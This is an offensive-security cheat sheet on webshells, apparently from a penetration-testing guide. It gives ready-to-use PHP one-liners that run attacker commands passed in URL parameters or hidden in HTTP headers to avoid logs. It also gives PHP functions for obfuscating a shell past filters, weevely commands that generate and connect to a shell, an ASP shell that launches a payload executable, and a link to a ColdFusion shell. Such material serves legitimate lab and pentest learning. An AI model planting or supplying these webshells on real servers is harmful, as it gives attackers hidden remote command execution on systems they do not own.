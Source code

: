 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 \(and 443\). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:

```
/usr/share/webshells
```

## PHP

This code can be injected into pages that use php.

```php
# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmd through the url, which will be obvious in logs, we can pass them through other header-parameters. We can use a tool like Burp Suite or even just netcat or curl to insert these commands.

```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

### Obfuscation

The following functions can be used to obfuscate the code.  It's unlikely to fool a SOC analyst, but it's useful bypassing character filtering methods.

```
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

### Weevely - Incredible tool!

Using weevely we can create php webshells easily.

```
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## Coldfusion

There's the standard CFM webshell included with Kali, but it doesn't have that many features and can be a slight pain to get working.  If you're going for stealth, it's ideal but I'd recommend the CFM v3 Webshell.

[https://github.com/Reboare/Cfm\_Shell\_v3.0\_edition](https://github.com/Reboare/Cfm_Shell_v3.0_edition)

This one allows easy directory traversal which the standard Kali one lacks.

## References

[http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)  
[http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/)

